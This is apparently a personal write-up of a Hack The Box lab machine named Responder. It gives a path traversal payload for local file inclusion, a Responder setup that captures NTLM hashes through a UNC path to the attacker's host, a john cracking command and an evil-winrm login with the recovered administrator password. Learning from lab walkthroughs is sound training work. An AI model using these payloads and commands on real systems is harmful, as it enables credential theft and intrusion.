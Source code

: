 Responder     used nmap to scan all ports and found two open http ports 80 and 5985 and an open tcpwrapped(dont what that is) 
we can also see that the server OS is windows 
since its a windows machine we are going to exploit winRM or windows remote management 

website enumeration :   when I put the ip into a web browser its redirecting to another site called http://unika.htb/  - its seems this is because of name-based Virtual Hosting - which means a single host servers multiple websites - so  based on names it will serve the website  

since its a lab and the domain wont be in any dns we need to add in the “/etc/host” file that when we go for  http://unika.htb/  the browser can directly connect to the ip so “/etc/host” is like a mini dns  

now once the website is open when I change the lang to french in the website we can see : http://unika.htb/index.php?page=french.html

and this looks like a file inclusion vulnerablity and we are able to access other files since in as pentester we will go for the etc/hosts file  by using ../ to traverse back to the base directory so we will add “?page=../../../../../../../../windows/system32/drivers/etc/hosts"

So its seems file inclusion is of two types LFI and RFI - local and remote   we are able to get the file so for “page” query params there seems to be no input validation so we conclude they might be using include() in php because it takes all the files 

now will be using Responder to get NTLM hash   we can run responder using  “sudo python3 Responder.py -I tun0” (-I to add the interface)  and when we pass in the page=//{responderip}/{something} in terminal where responder is running we get a hash and we can crack this hash using a tool called john  
“john -w=/Seclists/Passwords/Leaked-Databases/rockyou-75.txt ./Desktop/hash.txt”

now once we get the password we can connect using evil-winRm 

“evil-winrm -i 10.129.136.91 -u administrator -p badminton” 
